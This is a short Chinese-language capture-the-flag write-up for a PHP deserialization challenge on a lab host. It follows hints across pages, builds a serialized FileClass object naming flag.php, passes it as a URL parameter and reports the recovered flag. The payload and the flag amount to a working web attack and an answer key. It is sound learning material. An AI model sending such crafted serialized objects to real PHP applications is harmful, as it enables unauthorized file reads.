




# unserialize
### **【原理】**
php反序列化漏洞
### **【工具】**
notepad++，phpstudy
### **【步骤】:**
**步骤一：**

分析题目，访问(http://192.168.19.60:13002/?code=1),得到hint：flag.php;

继续访问(http://192.168.19.60:13002/flag.php),得到hint：help.php;

继续访问(http://192.168.19.60:13002/help.php),得到一串代码；

**步骤二：**

百度学习php反序列化漏洞，了解到__toString()函数是把包含toString()函数的类的对象当做字符串使用的时候返回的值；

根据类先构造出反序列化字符串:

得到O:9:"FileClass":1:{s:8:"filename";s:8:"flag.php";}

**步骤三：**

访问(http://192.168.19.60:13002/?code=O:9:%22FileClass%22:1:{s:8:%22filename%22;s:8:%22flag.php%22;})
得到提示：在这里，但是要怎么拿呢？

查看网页源代码,得到flag：SJU{UUNser1AL1Z3_SJU__0)(0}

### 【总结】
php反序列化只是做了大概的了解，还有很多不理解的地方......